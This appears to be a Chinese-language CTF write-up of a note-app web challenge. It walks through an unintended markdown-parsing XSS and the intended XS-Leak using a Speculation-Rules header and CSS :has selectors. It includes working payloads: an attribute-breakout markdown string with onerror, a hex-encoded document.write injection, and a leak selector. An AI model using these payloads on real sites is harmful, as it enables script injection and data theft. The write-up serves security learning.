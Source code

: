 比较特别的是，可以设置一个 header，除了 `content-xxx`

```js
app.use((req, res, next) => {
  if (typeof req.query.k === 'string' && typeof req.query.v === 'string') {
    // Forbidden :)
    if (req.query.k.toLowerCase().includes('content')) return next();

    res.header(req.query.k, req.query.v);
  }
  next();
});
```

题目信息里说

> Inspired by Udon (TSG CTF 2021)



### 非预期 - XSS

注意到 `markdown` 函数中会构造出 img 和 a 标签，而且会先构造 img，导致可以利用 a 标签的构造替换 img 标签中的内容，闭合双引号，从而达到构造 img 标签属性的效果：

```plain
![[aaa](xxx)]( src=1 onerror=alert`1` foo=)
```

以上内容经过 markdown 函数处理后会变成：

```html
<img alt="<a href=" src=1 onerror=alert`1` foo=">aaa" src="xxx"></img></a>
```

这样就可以造出一个 XSS，虽然是有限制的，比如 payload 里不能带括号，不过可以用 `docuemnt.wite` 再来一次 XSS。

```js
document.write`\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x31\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x22\x61\x6c\x65\x72\x74\x28\x31\x29\x22\x3e`
// <img src=1 onerror="alert(1)">
```



### 预期 - XSLeak via Speculation Rules

考虑设置 header 的功能：

- 如果可以设置任意 header，可以用 CSP report + CSS selector
- 按照 Udon (TSG CTF 2021) 中的做法，用 `Link` header 注入 CSS，再利用 selector 做 leak，但要求环境是 Firefox

按照题目的意思，应该是要找 Chrome 下也能用的 header，作者给出的答案是 `Speculation-Rules`, 可以用于设置 [Speculation Rules](https://developer.mozilla.org/en-US/docs/Web/API/Speculation_Rules_API) 。

利用 CSS selector 可以很容易构造出 leak pattern，难点是如何 report。考虑到可以 CSRF，可以给 bot 创建一些 note，note 的内容是可控的，且可以包含图片，将图片的 src 设成 report end 可以检测 note 是否被加载，所以可以利用 note 的 prerender 做 leak oracle。

如何根据 flag note 对应 a 标签的 href 属性 prerender 不同的 note？可以利用 `:has` selector：

```css
ul:has(li:first-child a[href^="/note/{prefix}"]) li:nth-last-child(1) a
```
